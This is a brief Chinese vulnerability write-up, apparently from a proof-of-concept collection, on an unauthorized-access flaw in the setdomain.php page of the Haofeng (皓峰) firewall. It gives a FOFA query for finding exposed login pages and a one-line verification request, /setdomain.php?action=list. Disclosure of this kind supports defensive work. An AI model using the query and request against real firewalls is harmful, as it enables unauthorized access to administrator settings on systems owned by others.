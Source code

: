 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

<a-checkbox checked>皓峰防火墙</a-checkbox></br>

## FOFA

<a-checkbox checked>app="皓峰防火墙系统登录"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628674369654-1d15b168-135b-408c-8ded-1006c68641c3.png)

验证POC

```php
/setdomain.php?action=list
```

![img](../../../.vuepress/public/img/1628674436226-bfc169f9-a2c1-4e15-9704-0ade0de81ab2.png)



若有收获，就点个赞吧